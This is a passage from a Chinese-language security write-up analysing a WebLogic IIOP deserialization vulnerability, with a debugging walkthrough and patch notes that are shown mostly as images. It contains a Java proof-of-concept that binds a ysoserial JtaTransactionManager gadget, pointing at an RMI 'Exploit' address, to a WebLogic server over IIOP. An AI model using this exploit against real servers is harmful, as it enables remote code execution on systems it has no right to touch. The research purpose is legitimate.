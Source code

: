 这个调用的过程和普通的RMI方法调用很相似，因此很容易想到RMI的反序列化漏洞（CVE-2017-3241），通过bind方法中发送序列化对象到服务端，服务端在读取的时候进行反序列化操作，从而触发漏洞。

于是构造如下请求：

```
public static void main(String[] args) throws Exception `{`
        String ip = "127.0.0.1";
        String port = "7001";

        Hashtable&lt;String, String&gt; env = new Hashtable&lt;String, String&gt;();
        env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
        env.put("java.naming.provider.url", String.format("iiop://%s:%s", ip, port));
        Context context = new InitialContext(env);
        // get Object to Deserialize
        JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
        jtaTransactionManager.setUserTransactionName("rmi://127.0.0.1:1099/Exploit");
        Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", jtaTransactionManager), Remote.class);
        context.bind("hello", remote);
    `}`
```

这里使用Ysoserial内建的功能帮我们生成一个实现Remote接口的远程类，发包之后收到请求的流量：

[![](https://p4.ssl.qhimg.com/t01555b6da0249861c8.png)](https://p4.ssl.qhimg.com/t01555b6da0249861c8.png)

请求包中序列化对象（这里序列化的使用的并不是ObjectOutputStream类，因此没有ACED 0005魔术头）：

[![](https://p3.ssl.qhimg.com/t016896f83c6145ddea.jpg)](https://p3.ssl.qhimg.com/t016896f83c6145ddea.jpg)

跟进调试发现客户端的bind方法中序列化对象操作如下：

[![](https://p5.ssl.qhimg.com/t019c7707dddcaa1ff8.png)](https://p5.ssl.qhimg.com/t019c7707dddcaa1ff8.png)

至此，整个漏洞的原理其实已经搞清楚：

**1.** 通过设置java.naming.provider.url的值为iiop://127.0.0.1:7001获取到对应的InitialContext对象，然后再bind操作的时候会将被绑定的对象进行序列化并发送到IIOP服务端。

**2.** Weblogic服务端在获取到请求的字节流时候进行反序列化操作触发漏洞。

如何验证呢？看补丁的时候发现补丁中和IIOP相关的只修复了weblogic.corba.utils. CorbaUtils类：

[![](https://p1.ssl.qhimg.com/t01628fbb12980936e5.png)](https://p1.ssl.qhimg.com/t01628fbb12980936e5.png)

然后全局搜索相关的包发现存在IIOPInputStream，根据名称很容易知道该类是IIOP类输入流，点进去搜索readObject然后下断点进行调试，命中断点之后查看调用栈信息如下：

[![](https://p4.ssl.qhimg.com/t01c29bddbaaecd2033.png)](https://p4.ssl.qhimg.com/t01c29bddbaaecd2033.png)

从调用的堆栈中可以很清晰看到进入到IIOPInputStream的处理是从read_any中开始的，也印证了序列化中write_any的操作。然后将断点设在该处动态调试可以发现：

[![](https://p3.ssl.qhimg.com/t01228b37ce2c589e9b.png)](https://p3.ssl.qhimg.com/t01228b37ce2c589e9b.png)

